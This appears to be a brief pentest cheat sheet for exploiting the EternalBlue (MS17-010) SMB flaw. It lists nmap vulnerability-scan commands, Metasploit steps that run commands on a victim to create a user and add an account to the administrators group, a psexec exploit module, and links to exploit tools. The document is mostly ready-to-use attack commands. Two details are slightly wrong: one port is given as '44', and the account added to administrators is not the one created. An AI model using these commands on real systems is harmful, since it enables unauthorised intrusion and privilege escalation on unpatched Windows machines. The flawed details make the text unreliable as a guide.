 ## eternal blue (ms17_010)

nmap use with nse script:
```
- nmap -v --script vuln [victim_ip] -p 445,139
- nmap -sV -script smb-vuln-ms17-010.nse [victim_ip] -p 139,44
```

## eternal blue commands(via metasploit)
```
- use auxiliary/admin/smb/ms17_010_command
- set rhosts: [victim_ip]
- set rport: 445
- set command: net user test test123! /add
- run
- set command: net localgroup administrators tester /add
- run
```
## eternal blue psexec (via metasploit)
```
- use exploit/windows/smb/ms17_010_psexec
- set rhosts [victim_ip]
- run
```

### Usefull tools for eternalblue
- https://github.com/worawit/MS17-010
- https://github.com/3ndG4me/AutoBlue-MS17-010
- https://github.com/sailay1996/eternal-pulsar
- https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a
- https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/
